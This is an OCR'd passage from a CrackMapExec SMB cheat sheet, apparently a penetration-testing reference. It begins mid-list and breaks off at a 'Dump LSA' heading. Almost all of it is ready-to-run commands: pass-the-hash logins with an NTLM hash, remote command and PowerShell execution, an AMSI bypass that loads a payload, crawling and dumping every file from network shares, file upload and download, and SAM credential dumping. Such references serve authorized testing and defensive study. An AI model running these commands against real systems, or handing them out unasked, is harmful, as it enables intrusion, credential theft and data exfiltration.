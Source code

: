     crackmapexec smb <target_ip> -u <username> -H '13b29964cc2480b4ef454c59562e675c' --local-auth
    crackmapexec smb <target_ip> -u <username> -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c' --local-auth
    ```
*   **Executing commands:** Uses wmiexec, atexec, or smbexec.

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -x 'whoami'
    ```
*   **Executing PowerShell commands:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -X '$PSVersionTable'
    ```
*   **Bypass AMSI:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -X '$PSVersionTable' --amsi-bypass /path/payload
    ```
*   **Spidering Shares:** Default option. Notice the '$' character has to be escaped. (example shown can be used as-is in a kali linux terminal)

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --spider C\$ --pattern txt
    ```
*   **Spidering Shares Using Spider\_plus:** The module `spider_plus` allows you to list and dump all files from all readable shares.

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M spider_plus
    ```
*   **Dump all files:** Using the option `-o` READ\_ONLY=false all files will be copied on the host

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M spider_plus -o READ_ONLY=false
    ```
*   **Upload a local file to the remote target:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --put-file /tmp/whoami.txt [\\Windows\\Temp\\whoami.txt](file://Windows/Temp/whoami.txt)
    ```
*   **Download a file from the remote target:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --get-file  [\\Windows\\Temp\\whoami.txt](file://Windows/Temp/whoami.txt) /tmp/whoami.txt
    ```
*   **Dump SAM:** You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --sam
    ```
*   **Dump LSA:** Requires Domain Admin or Local Admin Privileges on target Domain Controller
